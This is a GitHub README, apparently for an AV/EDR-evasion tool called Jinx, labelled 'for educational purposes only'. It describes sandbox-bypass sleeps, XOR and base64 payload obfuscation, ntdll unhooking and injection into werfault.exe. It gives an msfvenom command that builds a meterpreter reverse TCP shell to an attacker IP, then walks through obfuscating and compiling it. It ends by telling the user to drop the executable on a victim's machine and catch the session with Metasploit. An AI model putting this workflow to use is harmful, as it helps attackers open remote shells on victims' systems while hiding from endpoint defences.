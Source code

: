 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR
[![Python 3.10.4](https://img.shields.io/badge/python-3.10.4-yellow.svg)](https://www.python.org/) [![](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/)
## Features
 
- Custom Sleep Function - to bypass sandbox.
- Obfuscation - base64 encoding and xor encryption with randomly generated key.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Installation and use
Jinx require [Python3](https://www.python.org/) and C++ compiler to run (we will be using [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/))

In this demonstration we will generate a shellcode using msfvenom in our kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

Next we will use the obfuscator.py tool to obfuscate the shellcode:

```bash
python3 obfuscator.py <Path to the shellcode>/shellcode
```
Our shellcode then be obfuscated and saved in - obfuscatedPayload.bin with the key - key.bin.

Open Visual Studio create a project and import the files as follow:

- Headers Files > right click > Add > Existing Item > (base64.h, ntdll.h, resource.h)
- Resource Files > right click > Add > Existing Item > (key.bin, obfuscatedPayload.bin)
- Source Files > right click > Add > Existing Item > (base64.cpp, main.cpp, ntdll.cpp)

Build The project and drop the executable on the victim's machine.

On the attacker's machine use metasploit's multi/handler on port 1337
<br>
and on the victim's machine execute Jinx.
